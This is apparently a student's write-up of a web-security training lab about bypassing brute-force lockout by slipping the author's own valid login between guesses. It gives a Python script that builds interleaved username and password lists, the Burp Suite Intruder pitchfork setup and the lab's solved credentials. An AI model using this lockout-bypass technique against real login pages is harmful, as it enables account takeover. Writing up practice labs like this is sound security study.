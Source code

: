 This lab is vulnerable due to a logic flaw in its password brute-force protection. To solve the lab, brute-force the victim's password, then log in and access their account page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`
- Candidate passwords

---

The app has an information error letting me know if i have the correct username. The app locks the user out after 3 attempts.

As i read before in the previous explanation, i can put a correct user/pass combo to stop the lock out from firing. 

So for my pass list i will need to have my user/pass every two entries to reset the lock out mechanism.

I need to make a python script to set up the usernames and pass otherwise i'll have to add the entries manually. 

```python
#!/usr/bin/python3

print("########## Usernames ##########")
for i in range(150):
	if i % 3: 
		print("carlos")
	else:
		print("wiener")

print("########## Passwords ##########")
with open("passwords.txt", "r") as f:
	lines = f.readlines()

i = 0
for pwd in lines:
	if i % 3:
		print(pwd.strip("\n"))
	else:
		print("peter")
		print(pwd.strip("\n"))
		i = i+1
	i = i+1
```

![[Pasted image 20240823082050.png]]

After running the script, i launch a pitchfork attack by adding two points in burpsuite intruder, and adding the newly modified user/pass lists as the payloads one, and two. 

This allows me to login and complete the lab.

**Solution**
**User:** carlos
**Pass:** monitor

